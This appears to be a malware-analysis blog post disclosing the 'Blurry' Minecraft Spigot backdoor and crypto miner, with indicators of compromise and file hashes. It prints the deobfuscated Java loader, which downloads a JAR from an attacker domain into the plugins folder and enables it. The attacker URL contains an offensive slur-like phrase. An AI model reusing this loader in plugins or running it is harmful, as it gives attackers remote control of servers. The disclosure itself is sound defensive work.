 ```yaml
---
title: Blurry Spigot Backdoor
author: xyzeva
pubDatetime: 2023-07-20T13:50:10.627Z
postSlug: blurry-backdoor
featured: true
draft: false
tags:
  - threat
description: A new minecraft server backdoor and crypto miner.
---
```


MMPA members noticed some malicious activity going on their own personal servers, when given samples to investigate, MMPA uncovered the malware family "Blurry".

## What we know so far

Blurry is a multi-stage backdoor that is capable of completely taking over minecraft servers, crypto mining, and DDoSing.

Blurry works in 2 stagers, one being pulling for a domain, a JAR mainly named `BukkitScheduler.jar` and loading it into spigot, the loader is heavily obfuscated, but when cleaned up, it looks something like this:
```java
PluginManager pluginManager = Bukkit.getPluginManager();
if(pluginManager.getPlugin("BukkitScheduler") != null) return; 
URL url = new URL("https://i-really-love-cute-little-boys.fluyd.dev/aids/1ii1i1i11i1i1i1ii1i1iii1i11i1i1i1i1i1i1i1i1i1i1i1i1i1");
File file = new File("./plugins/BukkitScheduler.jar");
Files.copy(url.openStream(), file.toPath(), StandardCopyOption.REPLACE_EXISTING);
Plugin plugin = pluginManager.loadPlugin(file);
plugin.onLoad();
pluginManager.enablePlugin(plugin);
```

The malware has been seen to DDoS LGBT related minecraft servers. From what we can see, this is currently a minor threat, as it hasn't spread yet. But it should still be a good idea to check your servers.

## IoCs

- xmrig in minecraft server directory (`find | grep xmrig`)
- *.fluyd[.]dev

### Hashes
All hashes are provided as SHA-256.

#### Loaders
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `SoaromaSAC-1.0.65.jar` (Found on Bukkit, the actual plugin isnt affected.)
- `ffc965299059c29c4a806658215f99b5160d58b283befc7d3ac33b43c30cffeb` - Cracked Vulcan (`Vulcan-2.7.3.jar`)
- `1a9a698c6d9011727d1f4ace52bcf7630361765602cf729fc8bccc3774ce7ad2` - Fake copy of Open Source Project (`BedrockPlayerManager-1.4.jar`)

#### Payload
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `BukkitScheduler.jar`
- `8977470e0a766dc2deee2320eafeefa1f15d9adcc93f749418c362ee8ed4b858` - XMRig config (`config.json`)